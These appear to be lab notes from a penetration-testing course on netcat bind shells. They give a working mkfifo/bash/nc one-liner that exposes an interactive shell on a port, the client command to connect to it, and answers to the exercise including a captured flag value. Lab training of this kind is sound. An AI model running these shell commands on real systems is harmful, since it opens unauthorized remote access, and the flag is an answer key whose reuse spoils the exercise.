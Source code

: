 # Bind Shells
With a bind shell, the target system has a listener started and awaits a connection from a pentester's system (attack box).
## Establishing a Basic Bind Shell with Netcat
**No. 1: Server - Binding a Bash shell to the TCP session**
```
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
**No. 2: Client - Connecting to bind shell on target**
```
$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

## Questions
1. Des is able to issue the command `nc -lvnp 443` on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session? **Answer: 443**
2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the `flag.txt` file located at `/customscripts`. **Answer: B1nD_Shells_r_cool**
   - `$ ssh htb-student@10.129.254.146`
   - `htb-student@ubuntu:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.254.146 7777 > /tmp/f`: listen at port 7777 for a bind shell
   - `$ nc -nv 10.129.254.146 7777`: access the victim's shell from host